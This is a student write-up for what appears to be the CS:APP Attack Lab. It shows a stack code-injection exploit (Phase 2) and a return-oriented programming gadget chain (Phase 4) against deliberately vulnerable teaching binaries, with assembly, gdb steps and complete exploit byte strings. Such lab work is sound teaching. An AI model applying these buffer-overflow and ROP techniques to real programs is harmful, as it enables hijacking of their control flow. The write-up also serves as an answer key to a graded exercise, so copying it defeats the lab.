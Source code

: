 ## Code Injection Attacks

### Phase2

The task is to get `CTARGET` to execute the code for `touch2` rather than returning to `test`, while pass your cookie as the first argument. 

The code injection attack involves two stages. First, we need to find the binary code of the injected code and place it into the exploit string. Next, we modify the return address and make it pointing to the **starting address of the exploit string**. Therefore, the injected code will be executed and the attaker can take control. 

Recall that the first argument to a function is passed in register `%rdi`. The injected code can be written as: 

```assembly
mov $0x59b997fa, %rdi /* modify the first argument */ 
pushq $0x4017ec /* starting address of touch2 */ 
ret /* return to touch2 */
```

Enter the command `gcc -c touch2.s` and `objdump -d touch2.o > touch2.asm` to get the binary code. 

```c++
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

Then, use `gdb` tool to get the starting address of the exploit string: 

```c++
(gdb) b *0x4017af
(gdb) r -q
(gdb) print /x $rsp
$1 = 0x5561dc78
```

After these steps, we can get the exploit string: 

```c++
48 c7 c7 fa 97 b9 59 	/* mov $0x59b997fa,%rdi */ 
68 ec 17 40 00 			/* pushq  $0x4017ec */
c3						/* retq (to touch2) */
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 /* paddings */
00 00 00 00 00 00 00 00 00 00	/* paddings */
78 dc 61 55 00 00 00 00	/* starting address of exploit string */ 
```

## Return-Oriented Programming

### Phase4

Performing code injection attacks on program `RTARGET` is much more difficult than it is for `CTARGET`, because it uses two techniques to thwart such attacks: 

- It uses randomization so that the stack positions differ from one run to another. This makes it impossible to determine where your injected code will be located.
- It marks the section of memory holding the stack as non-executable, so even if you could set the program counter to the start of your injected code, the program would fail with a segmentation fault.

However, clever people have devised strategies for getting things done by executing existing code. The strategy with ROP (return-oriented programming) is to identify byte sequences within an existing program that consist of one or more instructions followed by the instruction `ret`.

We use `ret` to navigate to possible instructions and keep `ret` to the next one. The construction of phase2 goes like this:

<img src = "C:\Users\16549\AppData\Roaming\Typora\typora-user-images\image-20240911220734330.png" width = 500>

```c++
/* paddings */
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
/* address of addval_219 : 58 90 c3 <==> popq %rax ret */
ab 19 40 00 00 00 00 00
/* cookie */ 
fa 97 b9 59 00 00 00 00 
/* address of addval_273 : 48 89 c7 c3 <==> mov %rax,%rdi ret  */
a2 19 40 00 00 00 00 00
/* address of touch2 */
ec 17 40 00 00 00 00 00
```

